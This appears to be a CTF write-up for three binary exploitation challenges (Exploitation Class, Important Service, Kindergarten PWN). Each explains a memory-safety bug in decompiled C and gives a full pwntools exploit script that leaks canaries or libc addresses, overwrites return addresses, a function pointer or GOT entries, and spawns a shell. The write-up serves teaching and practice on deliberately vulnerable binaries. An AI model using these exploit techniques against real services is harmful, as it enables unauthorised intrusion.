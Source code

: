 ## Exploitation Class

The program allocates a `char data[22][12];`  buffer on the stack, and we can read and write it.

The vulnerability is here

```c
unsigned __int64 __fastcall writeData(char *a1)
{
  unsigned int v2; // [rsp+4h] [rbp-14h]
  unsigned __int64 v3; // [rsp+8h] [rbp-10h]

  v3 = __readfsqword(0x28u);
  puts("Which entry to write?");
  v2 = 0;
  __isoc99_scanf("%u", &v2);
  if ( v2 <= 0xFC )
  {
    puts("What to write?");
    read(0, &a1[12 * v2], 0xCuLL);
  }
  return __readfsqword(0x28u) ^ v3;
}
```

It ensures that index is `<= 0xfc`, however, it should be `idx * 12 <= 0xfc`, so this leads to a index out of bound.

Also, there is no null termination here, so we can leak some data.

There is stack canary here, so we need to leak the canary and libc address. Because we can read the last element of the array, we can fill all of the bytes such that there is no null termination from the last element to the data we want to leak. Then we can leak the data by showing the last element.

After leaking the data, it is very easy to ROP and execute the `system("/bin/sh")`

```python
from pwn import *

g_local=False
context.log_level='debug'

if g_local:
	sh = process("./exploitClass")#env={'LD_PRELOAD':'./libc.so.6'}
	MAIN_RET_OFF = 0x20830
	ONE_GADGET = 0x45216
	POP_RDI = 0
	e = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
	gdb.attach(sh)
else:
	sh = remote("class.uni.hctf.fun", 24241)
	#sh = process("./exploitClass", env={'LD_PRELOAD':'./libc.so.6'})
	MAIN_RET_OFF = 0x24223
	ONE_GADGET = 0x451F9 #0x45254
	POP_RDI = 0x23BE3
	e = ELF("./libc.so.6")


def read(idx):
	sh.send("1\n")
	sh.recvuntil("Which entry to show?\n")
	sh.send(str(idx) + "\n")
	ret = sh.recvuntil("\n")
	sh.recvuntil("Enter 1 to read, 2 to write and any other number to exit!\n")
	return ret[:-1]

def write(idx, data):
	sh.send("2\n")
	sh.recvuntil("Which entry to write?\n")
	sh.send(str(idx) + "\n")
	sh.recvuntil("What to write?\n")
	sh.send(data)
	sh.recvuntil("Enter 1 to read, 2 to write and any other number to exit!\n")

sh.recvuntil("Enter 1 to read, 2 to write and any other number to exit!\n")
write(21, "B" * 12)
write(22, "C")
#write(24, "A" * 8 + '\xa0') #return to main
canary = u64(read(21)[0xc:0xc+8]) - ord('C')
print hex(canary)
for i in xrange(0,4):
	write(22 + i, "B" * 0xc)
libc_addr = u64(read(21)[0x3c:0x3c+6] + "\x00\x00") - MAIN_RET_OFF

write(22, p64(canary))
write(24, 'A' * 8 + p32((libc_addr + POP_RDI) & 0xffffffff))
write(25, p32((libc_addr + POP_RDI) >> 0x20) + p64(libc_addr + next(e.search("/bin/sh"))))
write(26, p64(libc_addr + e.symbols["system"]))
print hex(libc_addr)
write(29, '\x00' * 0xc)
sh.send("3\n")
sh.interactive()
```

## Important Service

0x401 0 can cause the buffer overflow, which can overwrite one lowest byte of the function pointer in the stack

```c
char vulnbuf[1024]; // [rsp+0h] [rbp-420h]
int (__fastcall *func_addr)(char *, int, int); // [rsp+400h] [rbp-20h]
//...
fread(vulnbuf, 1uLL, (signed int)vullen, stdin);
func_addr(vulnbuf, vullen, v7);
```

Although there is PIE in this program, the lowest 12 bits will not change due to the PIE. Initially the function pointer in the stack is `base_addr + 0x11BC`, and the shell function address is `base_addr + 0x11A9`, so if we change `0xbc` to `0xa9`, the shell function will be called instead.

```python
from pwn import *

g_local=False
context.log_level='debug'
store_idx = 0

if g_local:
	sh = process("./importantservice")#env={'LD_PRELOAD':'./libc.so.6'}
	gdb.attach(sh)
else:
	sh = remote("importantservice.uni.hctf.fun", 13375)

sh.recvuntil("Please enter width and height e.g.: 5 8\n")
sh.send(str(0x401) + " 0\n")
sh.recvuntil("Please provide some data e.g.: 12345\n")
sh.send("A" * 0x400 + "\xa9")

sh.interactive()
```

## Kindergarten PWN

In the program, an index is required to be given, and the program will show the original byte at that index and let you to change it. The problem is that it did not check the index must be `>=0`

```c
if ( v5 <= 31 )//v5 < 0
{
   printf("the value at %d is %hhd. give me a new value:\n> ", (unsigned int)v5, (unsigned int)array[v5]);
   v3 = &v4;
   if ( (unsigned int)__isoc99_scanf("%hhd", &v4) != 1 )
     break;
   array[v5] = v4;
}
```

and array is a global variable, and the got table can be overwritten, so we can use this to leak the libc address and rewrite the got table to `one_gadget`

```python
from pwn import *

g_local=False
context.log_level='debug'
store_idx = 0

e = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
if g_local:
	sh = process("./kindergarten")#env={'LD_PRELOAD':'./libc.so.6'}
	#sh = process(['ld.so.2', './user.elf'])
	gdb.attach(sh)
else:
	sh = remote("kindergarten.uni.hctf.fun", 13373)
	#ONE_GADGET_OFF = 0x4557a

def one_iter(idx, val = None):
	sh.recvuntil("give me an index:\n> ")
	sh.sendline(str(idx))
	sh.recvuntil("the value at " + str(idx)+ " is ")
	ret = sh.recvuntil(".")
	sh.recvuntil(" give me a new value:\n> ")
	ret = int(ret[:len(ret)-1])
	if val:
		sh.sendline(str(val))
	else:
		sh.sendline(str(ret))
	return ret & 0xff

def leak_qword(off):
	ret = 0
	for i in xrange(0,8):
		ret |= one_iter(off + i) << (8 * i)
	return ret

def shoot_qword(off, val):
	for i in xrange(0,8):
		one_iter(off + i, (val >> (8 * i)) & 0xff)

libc_addr = leak_qword(0x4018 - 0x4080) - e.symbols["printf"]
#leak address of `printf`
print hex(libc_addr)
shoot_qword(0x4030 - 0x4080, libc_addr + 0x4526a) #0x30 one_gadget
#rewirte the `exit` function to one_gadget
sh.recvuntil("> ")
sh.sendline("asd")

sh.interactive()
```

